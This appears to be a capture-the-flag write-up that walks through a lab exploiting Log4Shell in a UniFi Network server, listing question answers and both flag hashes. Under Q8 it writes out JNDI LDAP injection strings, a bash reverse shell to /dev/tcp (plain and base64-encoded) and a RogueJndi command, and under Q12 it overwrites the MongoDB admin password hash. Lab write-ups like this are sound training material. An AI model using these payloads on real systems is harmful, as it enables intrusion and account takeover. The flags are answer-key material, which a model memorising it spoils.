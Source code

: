 
___

### Q1: Which are the first four open ports?

#### A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

___

### Q2: What is the title of the software that is running running on port 8443?

#### A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

___

### Q3: What is the version of the software that is running?

#### A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

___

### Q4: What is the CVE for the identified vulnerability?

#### A: CVE-2021-44228

Googling around i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

___

### Q5: What protocol does JNDI leverage in the injection?

#### A: LDAP

Looking at that cve we get it.

![](../../Img/Pasted%20image%2020250424153434.png)

___

### Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

#### A: tcpdump

It's just the tool for that.

___

### Q7: What port do we need to inspect intercepted traffic for?

#### A: 389

It looks like ldap traffic goes to port 389

![](../../Img/Pasted%20image%2020250424155244.png)

___

### Q8: What port is the MongoDB service running on?

#### A: 27117

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error

![](../../Img/Pasted%20image%2020250424160606.png)

but also a connection

![](../../Img/Pasted%20image%2020250424160627.png)

With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"

![](../../Img/Pasted%20image%2020250424162840.png)

in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
we get the connection

![](../../Img/Pasted%20image%2020250424163652.png)

Upgrade it (script /dev/null -c bash)
Now finally for the question let's check if mongo is running (ps aux | grep mongo)

![](../../Img/Pasted%20image%2020250424163929.png)

___

### Q9: What is the default database name for UniFi applications?

#### A:  ace

Before i had the genius ground breaking idea of just googling it, i connected to the mongo instance and listed the db

![](../../Img/Pasted%20image%2020250424164412.png)

![](../../Img/Pasted%20image%2020250424164226.png)

___

### Q10: What is the function we use to enumerate users within the database in MongoDB?

#### A: db.admin.find()

This doesn't seem to me like a just find user command, db.getUsers() seems like the answer (https://www.prisma.io/dataguide/mongodb/configuring-mongodb-user-accounts-and-authentication)

___

### Q11: What is the function we use to update users within the database in MongoDB?

#### A: db.admin.update()

Following the trend here, i got no problem with this one .

___

### Q12: What is the password for the root user?

#### A: NotACrackablePassword4U2022

I Chose the Shadow Admin method from the article. I created a pswd (qweqwe12345), sha-512 it, replace the one the admin had with (db.admin.update())
and just log in

![](../../Img/Pasted%20image%2020250424170005.png)

Now, in the Steal SSH Creds it says how to get the answer

![](../../Img/Pasted%20image%2020250424170142.png)

___

### Q13: Submit user flag

#### A: 6ced1a6a89e666c0620cdb10262ba127

shh into it 

![](../../Img/Pasted%20image%2020250424170310.png)

go find it

![](../../Img/Pasted%20image%2020250424170542.png)

___

### Q14: Submit root flag

#### A: e50bc93c75b634e4b272d2f771c33681

Look for it 

![](../../Img/Pasted%20image%2020250424170430.png)

Tags: [JNDI](../../Index/JNDI.md) [Nmap](../../Index/Nmap.md)